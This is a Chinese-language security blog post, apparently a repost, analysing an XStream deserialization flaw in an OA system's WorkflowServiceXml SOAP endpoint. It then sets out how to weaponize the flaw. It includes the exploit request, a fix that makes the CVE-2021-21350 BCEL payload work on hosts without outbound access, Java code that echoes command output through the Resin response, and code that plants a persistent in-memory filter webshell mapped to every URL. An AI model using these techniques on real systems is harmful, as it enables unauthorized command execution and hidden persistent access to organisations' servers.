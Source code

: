 最近在逛论坛的时候，发现有一哥们求助在自己的设备上发现某oa的0day流量。恰好手头有该OA的源码，于是开始分析一下

漏洞分析
----

流量中http的请求如下

```php
POST /services%20/WorkflowServiceXml HTTP/1.1
Accept-Encoding: gzip, deflate
Content-Type: text/xml;charset=UTF-8
SOAPAction: ""
Content-Length: 33003
Host: : 192.168.190.128
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>    <web:string>
```

虽然不全，但是也足够我们去分析了。一般情况下`WEB-INF`文件夹的`web.xml`文件含有该j2ee项目的所有信息，包括哪个servlet对应到哪个class类。所以我们看下该文件，如下所示

```php
<servlet>
   <servlet-name>XFireServlet</servlet-name>
   <display-name>XFire Servlet</display-name>
<servlet-class>org.codehaus.xfire.transport.http.XFireConfigurableServlet</servlet-class>
</servlet>

<servlet-mapping>
   <servlet-name>XFireServlet</servlet-name>
   <url-pattern>/services/*</url-pattern>
</servlet-mapping>
```

看来url的`services`对应`org.codehaus.xfire.transport.http.XFireConfigurableServlet`这个类。我们去分析一下这个类。在servlet中，你可以简单地认为get对应doGet方法，post对应doPost方法。这个poc显然需要分析doPost方法。但是很显然，doPost方法，最终交由controller去处理。对于java这种强类型的语言的项目，我们可以直接右键，点击implement方法直接跳转到该处理函数，如图![图片](https://shs3.b.qianxin.com/butian_public/f1a1457028e3dddd052dcfcda9d9a1226.jpg)

doService代码如下

```php
public void doService(HttpServletRequest var1, HttpServletResponse var2) throws ServletException, IOException {
        String var3 = this.getService(var1);
        if (var3 == null) {
            var3 = "";
        }

        ServiceRegistry var4 = this.getServiceRegistry();
        var2.setHeader("Content-Type", "UTF-8");

        try {
            requests.set(var1);
            responses.set(var2);
            boolean var5 = var4.hasService(var3);
            if (var3.length() != 0 && var5) {
                if (this.isWSDLRequest(var1)) {
                    this.generateWSDL(var2, var3);
                } else {
                    this.invoke(var1, var2, var3);
                }
```

getService方法获取服务名，也就是url中service后面的内容，在该poc中是`WorkflowServiceXml`。然后调用invoke执行。

在漏洞分析中，我们需要大致走通流程，对于这种我们需要了解服务对应哪个类。

分析invoke方法，首先调用`getService`方法，查找service对应的处理类是什么。代码如下

```php
    protected Service getService(String var1) {
        return this.getXFire().getServiceRegistry().getService(var1);
    }
```

这时候我们已经很明显的知道，这是使用xfire框架开发的模块。在xfire框架中，使用`service.xml`文件描述service名称与处理类的关系。在该oa中，该文件如下![图片](https://shs3.b.qianxin.com/butian_public/f3e99868de3b637ae03bdb10c2abf0ed8.jpg)

现在我们知道该service由`unicodesec.workflow.webservices.WorkflowServiceImplXml`来处理。而该soap消息，则是调用该类的某个方法和参数。在invoke方法中，其实是处理soap消息，然后根据soap消息调用相关方法。

在poc中，调用`doCreateWorkflowRequest`方法，我们看一下

```php
    public String doCreateWorkflowRequest(String var1, int var2) {
        try {
            WorkflowRequestInfo var3 = (WorkflowRequestInfo)this.xmlutil1.xmlToObject(var1);
            var3 = this.getActiveWorkflowRequestInfo(var3);
```

![图片](https://shs3.b.qianxin.com/butian_public/fb1e66ccb9606fbdb8ce44c5e96b07814.jpg)

很明显的xstream反序列化漏洞，而且该oa的xstream版本较低。我们直接使用xstream官网提供的poc验证一下就可以。

![图片](https://shs3.b.qianxin.com/butian_public/fe76b99bcff3587ba7eb78856a77610ec.jpg)

武器化利用
-----

我们肯定不满足于弹窗，所以我们就要研究resin服务器怎么回显以及怎么做内存马。

### 修复异常

在这里我们为了更好地满足不出网这个需求，使用cve-2021-21350这个poc。这个poc其实是无法使用的，会一直报错nullPointException。这个poc使用bcel这个classloader，可以将类的字节码通过编码隐藏到类名中。但是怎么会有空指针异常错误呢。下面介绍一下排查思路以及方法。

根据给出的错误堆栈，下断点到相应的函数以及位置

![图片](https://shs3.b.qianxin.com/butian_public/fa140fa9082f2e094f257aea003be90c3.jpg)

也就是`checkPackageAccess`方法，我们发现此时domains字段竟然为空。

![图片](https://shs3.b.qianxin.com/butian_public/fbd64dbb77f5e17bb342851af82b0d671.jpg)

而根据bcel的classloader其实来源于xstream去反序列化xml得来。我们知道xstream会将被序列化的对象中所有字段通过xml来存储。如果某字段没有在xml中存储，则反序列化的时候该字段为null。

问题找到了，下面讲一下怎么修复。首先通过xstream序列化一个正常的bcel的classloader。然后从xml中摘出我们需要的字段的序列化xml片段，重组到poc中即可。如图![图片](https://shs3.b.qianxin.com/butian_public/f0997d0cb80b0bd4c92fc723545ca3109.jpg)

### 回显

既然我们想要做到武器化利用，肯定需要做该漏洞的回显，也就是将命令执行的结果输出到http的响应中。做回显，无非就是怎么找到本次http请求中http响应对象的位置。介绍一下思路

1. Thread 中间件有可能将本次response对象和request对象存储在某一线程中，遍历直到找到该对象
2. 中间件可能将请求与响应的对象存储在某静态变量中

resin这个中间件做回显简直太简单了。resin将响应直接存储到静态变量，我们直接调用方法就可以获取。

代码如下

```php
            Class tcpsocketLinkClazz = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.network.listen.TcpSocketLink");
            Method getCurrentRequestM = tcpsocketLinkClazz.getMethod("getCurrentRequest");
            Object currentRequest = getCurrentRequestM.invoke(null);
            Field f = currentRequest.getClass().getSuperclass().getDeclaredField("_responseFacade");
            f.setAccessible(true);
            Object response = f.get(currentRequest);
            Method getWriterM = response.getClass().getMethod("getWriter");
            Writer w = (Writer) getWriterM.invoke(response);
            w.write("powered by potatso");
```

### 内存马

直接介绍一下resin内存马实现的思路

1. 找到webContext这个对象，在中间件中该对象存储webapp的所有信息，例如servlet与url的对应关系，filter与url的对应关系。寻找这个对象的方法参考前面寻找response对象的方法。
2. 将我们自己的恶意filter通过defineClass方法添加到服务器的classpath中
3. 添加filter与url pattern的对应关系

在resin中，每个webContext存储在静态变量中。可以通过WebApp的getCurrent静态方法获取当前的webcontext对象。调用addFilter添加内存马即可。代码如下

```php
FilterMapping mapping = new FilterMapping();
mapping.setFilterName("fuckyou");
mapping.setFilterClass("你的filter的全限定名");
mapping.setWebApp(w);
mapping.setServletContext(w);
w.addFilter(mapping);
FilterMapping.URLPattern url = mapping.createUrlPattern();
url.init();
url.addText("/*");
w.addFilterMapping(mapping);
```

文章转载于”宽字节安全”公众号，已取得转载授权。
